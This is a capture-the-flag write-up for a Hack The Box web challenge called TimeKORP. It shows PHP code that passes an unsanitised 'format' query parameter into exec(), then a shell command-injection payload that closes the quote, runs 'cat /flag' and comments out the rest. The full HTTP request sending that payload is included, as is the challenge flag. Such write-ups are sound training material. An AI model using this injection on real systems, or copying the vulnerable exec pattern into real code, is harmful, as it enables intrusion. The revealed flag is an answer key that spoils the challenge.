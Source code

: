 ## Title

TimeKORP

## Description

TBD

## Solution

This challenge uses the following technologies: php and nginx
The config directory contains the nginx configuration. Bellow is nginx.conf:

```conf
http {
    server_tokens off;
    log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';
    access_log /dev/stdout docker;

    charset utf-8;
    keepalive_timeout 20s;
    sendfile on;
    tcp_nopush on;
    client_max_body_size 1M;

    server {
        listen 80;
        server_name _;

        index index.php;
        root /www;

        location / {
            try_files $uri $uri/ /index.php?$query_string;
            location ~ \.php$ {
                try_files $uri =404;
                fastcgi_pass unix:/run/php-fpm.sock;
                fastcgi_index index.php;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                include fastcgi_params;
            }
        }
    }
}
```

In index.php we can see that we only have one route which maps to TimeController.php.
TimeController receives a parameter called `format` through a GET request.
Then, it will use a TimeModel.php and then display the time.

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

THe problem is the TimeModel, which uses a exec function:

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Since there isn't a filter or validation of the format we can try to pipe commands and try to get command injection.
The final payload is `' ; cat /flag ; #`, `'` its for ending the string, `;` its to finish the first command, `;` indicates the end of the second command and `#` its to comment the rest of the first command:

```
GET /?format='+%3b+cat+/flag+%3b+%23 HTTP/1.1
Host: 94.237.62.94:39896
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Flag: `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`
